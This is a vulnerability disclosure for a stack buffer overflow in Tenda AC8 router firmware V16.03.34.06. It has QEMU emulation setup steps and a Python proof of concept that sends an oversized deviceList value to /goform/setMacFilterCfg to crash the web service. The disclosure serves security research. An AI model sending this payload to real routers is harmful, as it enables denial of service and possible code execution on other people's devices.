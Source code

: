 sub\_47d878
-----------

Tenda AC8 version **V16.03.34.06** was discovered to contain a stack overflow via the src parameter in the function sub\_47D878.

### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站：[https://www.tenda.com.cn/material/show/103518](https://www.tenda.com.cn/material/show/103518)

### Affected version

**V16.03.34.06**

### Environmental simulation

need build Network bridge:

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

qemu start command：

```text-plain
sudo qemu-mipsel-static -L . ./bin/httpd
```

### Vulnerability details

In the `sub_47D878` function at line 8, data is read from a user-supplied parameter provided by the caller function, and the `src` variable is passed to the functions at lines 28 and 29 without any length validation. This lack of length checking could lead to a stack-based buffer overflow. As a result, by crafting a malicious request to the page, an attacker could easily exploit this vulnerability to execute a denial of service (DoS) attack or achieve remote code execution (RCE). This poses a significant security risk, as it allows an attacker to crash the system or execute arbitrary code remotely.

![](api/attachments/TCxTxrP3hJ1u/image/image.png)

### PoC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```text-plain
import requests

ip = '192.168.142.100'
headers = {
    'Host': ip,
}

deviceList = 'R'*1000 + "\r10:11:11:11:11:22"
data = 'macFilterType=black&deviceList='+ deviceList


response = requests.post(
    f'http://{ip}/goform/setMacFilterCfg',
    headers=headers,
    data=data,
    verify=False,
)
```

![](api/attachments/boVZC86BE9Gc/image/image.png)